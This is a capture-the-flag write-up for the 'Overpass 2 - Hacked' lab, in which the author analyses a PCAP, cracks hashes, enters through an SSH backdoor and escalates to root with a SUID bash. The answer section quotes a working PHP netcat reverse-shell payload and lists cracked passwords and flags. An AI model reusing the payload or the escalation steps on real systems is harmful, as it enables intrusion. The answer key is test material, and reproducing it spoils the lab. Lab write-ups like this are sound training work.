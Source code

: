 ---
- **Title**: Overpass 2 - Hacked
- **Description**: Overpas has been hacked! Analyze PCAP file to investigate attackers' actions. From there try to hack back in the system.
- **Set up:**
```bash
	### Set $IP variable to the assigned IP Address
	export IP=10.10.147.30
```
![OverPass-Header](./Images/[OverPass-Header].png)

# Task 1 - Forensic - Analysis the PCAP

- By filtering the packets by ```http```, I can easily see the URL of the page attackers used to upload the reverse shell. The packet I was looking for was the one with POST request.

![POST Request](./Images/POST-Request.png)

- Following HTTP Stream, I can figure all information that tracks down attackers' actions.

![POST HTTP Stream](./Images/POST-HTTP-Stream.png)

- Filtering the PCAP file using ```tcp contains password```, I was able to retrieve 5 users with 5 hashes.

![users-hashes](./Images/users-hashes.png)

Using John with fastttrack.txt, I was able to crack 4 passwords for 4 users: 

![cracked-passwords](./Images/cracked-passwords.png)


# Task 2 - Research & Analyze the code

_ In the HTTP Stream, I found that attackers downloaded code from a github page: https://github.com/NinjaJc01/ssh-backdoor. Analyzing the code on the github page, we'll find all the answers. After analyzing the codes, I was able to retrieve teh default hash for the backdorr, the hardcoded  salt for the backdoor and the has that the attacker used (from the PCAP file). From there, I was able to crack the password using the list rockyou.txt. Combining the found hash and salt, I was able to crack the password for the backdoor (SHA512($p.$s))

# Task 3 - Attack & Get Back in!
- Visiting the website on port 80, we can easily see the message by the attacker.

- Using the credentials found in Task 2, to ssh to the machine through the backdoor. 

```bash
    ssh james@$IP -p 2222
``` 

![ssh-backdoor](./Images/ssh-backdoor.png)

- Running some directory exploration, I found user.txt under james' home folder. I also found .suid_bash file, which has suid bit set. This can be used to escalate privilege to root.

```bash
    ls -la /home/james
```
![james-home.png](./Images/james-home.png)

- Referencing [GTFOBin]("https://gtfobins.github.io/"), I was able to get root by running the following command:

```bash
    ./.suid_bash -p
```

![get-root.png](./Images/get-root.png)

And we're done for the room. With root acces, I could get both user's flag and root flag.
<details>
    <summary> Answer </summary>
	
1. What was the URL of the page they used to upload a reverse shell?  <br>
	-> /development/ <br>
	
2. What payload did the attacker use to gain access? 
	-> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
	
3. What password did the attacker use to privesc? <br>
	-> whenevernoteartinstant<br>
	
4. How did the attacker establish persistence? <br>
	-> https://github.com/NinjaJc01/ssh-backdoor<br>
	
5. Using the fasttrack wordlist, how many of the system passwords were crackable? <br>
	-> 4<br>
	
6. What's the default hash for the backdoor? <br>
	-> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3<br>
	
7. What's the hardcoded salt for the backdoor? <br>
	-> 1c362db832f3f864c8c2fe05f2002a05<br>
	
8. What was the hash that the attacker used? - go back to the PCAP for this! <br>
	-> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed<br>
	
9. Crack the hash using rockyou and a cracking tool of your choice. What's the password? <br>
	-> november16<br>
	
10.  The attacker defaced the website. What message did they leave as a heading? <br>
	-> H4ck3d by CooctusClan<br>
	
11. What's the user flag? <br>
	-> thm{d119b4fa8c497ddb0525f7ad200e6567}<br>
	
12. What's the root flag?<br>
	-> thm{d53b2684f169360bb9606c333873144d}<br>

</details>

